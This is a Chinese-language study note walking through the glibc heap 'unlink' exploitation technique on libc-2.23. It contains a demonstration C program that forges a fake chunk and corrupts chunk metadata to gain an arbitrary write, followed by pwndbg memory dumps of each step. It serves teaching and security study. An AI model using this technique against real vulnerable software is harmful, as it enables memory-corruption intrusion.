 ## Unlink

测试系统：Ubuntu 16.04 

libc-2.23.so

### 演示程序

演示程序源代码：

来源：<https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html>

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x80);
  chunk2 = malloc(0x80);
  printf("%p\n", &chunk1);
  printf("%p\n", chunk1);
  printf("%p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2); 
  chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("%p\n", chunk1);
  printf("%x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}

```

编译

```shell
$ gcc -o vulnerable -g unlink_exploit.c
```

-g用于添加更多的调试信息

### 分析

使用gdb调试，装载了pwndbg插件



#### 0x1 申请两个smallbin 

首先程序申请了两个不是fastbin的堆块chunk1和chunk2，因为是64位系统，申请大小是0x80

```c
  chunk1 = malloc(0x80);
  chunk2 = malloc(0x80);
```
![init-state](imgs/unlink-init-stat.png)



#### 0x2 为了绕过安全检查，构造fake chunk

为了后续的free(chunk2)的unlink，在chunk1处构造fake chunk

为了绕过UNLINK宏的安全检查，设定

prev->fd->bk == prev

prev->bk->fd == prev

其中prev为fake chunk头部指针



首先，&chunk1，即fake chunk的头部地址，为0x7fffffffddd0

然后为了让prev->fd->bk == prev，作者让fake chunk的fd指向某个chunk头部，这个chunk的bk为为prev，

```c
  fake_chunk     = (struct chunk_structure *)chunk1;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P
```

```asm
pwndbg> x/40xg 0x555555756000
0x555555756000:	0x0000000000000000	0x0000000000000091   << chunk1 header
0x555555756010:	0x0000000000000000	0x0000000000000000   << fake chunk header
0x555555756020:	0x00007fffffffddb8	0x00007fffffffddc0   << fake's fd, bk
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
0x555555756050:	0x0000000000000000	0x0000000000000000
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000000	0x0000000000000091   << chunk2 header
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
0x5555557560f0:	0x0000000000000000	0x0000000000000000
0x555555756100:	0x0000000000000000	0x0000000000000000
0x555555756110:	0x0000000000000000	0x0000000000000000
0x555555756120:	0x0000000000000000	0x0000000000000411   << top chunk
0x555555756130:	0x3535353535357830	0x000a306130363537
```

#### 0x3 设定即将被释放的chunk的前一个chunk为释放状态

修改chunk2的头部，让libc以为chunk1已被释放了

设置prev_inuse = 0, 以及prev_size = 前一个chunk的大小

```c
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2); 
  chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit
```

```asm
pwndbg> x/40xg 0x555555756000
0x555555756000:	0x0000000000000000	0x0000000000000091
0x555555756010:	0x0000000000000000	0x0000000000000000
0x555555756020:	0x00007fffffffddb8	0x00007fffffffddc0
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
0x555555756050:	0x0000000000000000	0x0000000000000000
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000080	0x0000000000000090   << chunk2 header
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
0x5555557560f0:	0x0000000000000000	0x0000000000000000
0x555555756100:	0x0000000000000000	0x0000000000000000
0x555555756110:	0x0000000000000000	0x0000000000000000
0x555555756120:	0x0000000000000000	0x0000000000000411
0x555555756130:	0x3535353535357830	0x000a306130363537
```

#### 0x4 释放chunk2，触发unlink

因为prev_inuse位为0， 则系统认为前面的chunk1是释放状态，会触发unlink，将当前chunk与前面释放的chunk合并

**unlink的操作是：**

根据prev_size定向到前面一个已释放的chunk

将当前chunk2与前面释放的chunk（fake chunk）的大小相加，放置到前面释放的chunk的size位置上

将合并后的chunk的头部指针（fake chunk）放入unsorted bin

```c
free(chunk2);
```

```asm
pwndbg> x/40xg 0x555555756000
0x555555756000:	0x0000000000000000	0x0000000000000091   << chunk1
0x555555756010:	0x0000000000000000	0x0000000000000111   << fake chunk
0x555555756020:	0x00007ffff7dd1b78	0x00007ffff7dd1b78   << addr of main_arena+0x88
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
0x555555756050:	0x0000000000000000	0x0000000000000000
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000080	0x0000000000000090   << freed chunk2
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
0x5555557560f0:	0x0000000000000000	0x0000000000000000
0x555555756100:	0x0000000000000000	0x0000000000000000
0x555555756110:	0x0000000000000000	0x0000000000000000
0x555555756120:	0x0000000000000110	0x0000000000000410   << top chunk
0x555555756130:	0x3862646466666666	0x000a38626464660a
```

